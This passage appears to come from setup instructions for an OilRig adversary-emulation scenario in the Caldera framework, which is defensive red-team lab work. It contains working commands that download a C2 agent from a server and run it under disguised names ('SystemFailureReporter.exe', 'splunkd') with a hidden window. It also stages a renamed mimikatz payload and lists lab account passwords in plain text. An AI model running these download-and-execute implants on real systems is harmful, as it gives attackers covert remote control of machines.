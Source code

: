 Run your C2 server from the caldera directory. This will unzip encrypted executables throughout the `adversary-emulation-library` and ingest its emulation plans.
```
# from caldera directory

python3 server.py --insecure --log DEBUG
```

Update payload name for mimikatz to `m64.exe`. **Note:** this may require a server restart for Caldera to pick up the new payload.
```
# from caldera/plugins/emu directory

cp payloads/mimikatz.exe m64.exe
```

# RUNNING THE OPERATION

## Launch Agents

Launch the first agent by running the following command on 10.1.0.5 (THEBLOCK) as the user `gosta`. The password for `gosta` is `d0ntGoCH4ingW8trfalls`. Note that you may need to replace `gosta` with the applicable username, if you are not using the `gosta` user. This agent is meant to replace SideTwist payload used in the original scenario.

```
mkdir  "C:\Users\gosta\AppData\local\SystemFailureReporter";
cd  "C:\Users\gosta\AppData\local\SystemFailureReporter";
$server="http://192.168.0.4:8888"; # change IP address for your CALDERA C2 server according to your environment
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\SystemFailureReporter.exe"} | stop-process -f;
rm -force "C:\Users\Public\SystemFailureReporter.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\SystemFailureReporter.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\SystemFailureReporter.exe -ArgumentList "-server $server -group gosta" -WindowStyle hidden;
```

RDP to 192.168.0.4, the Kali attacker host, as user `saka` with password `ceKa#zUUc4^9yZ`. You may need to modify the command so the `server` value matches your attacker host's IP address. Launch the second agent by running the following command. **Note:** keep this RDP open as this will be leveraged by `xfreerdp` in the executed Caldera operation.
```
# from the caldera directory

cd "plugins/emu/data/adversary-emulation-library/oilrig/Resources/payloads/TwoFace";
server="http://192.168.0.4:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group kali -v
```
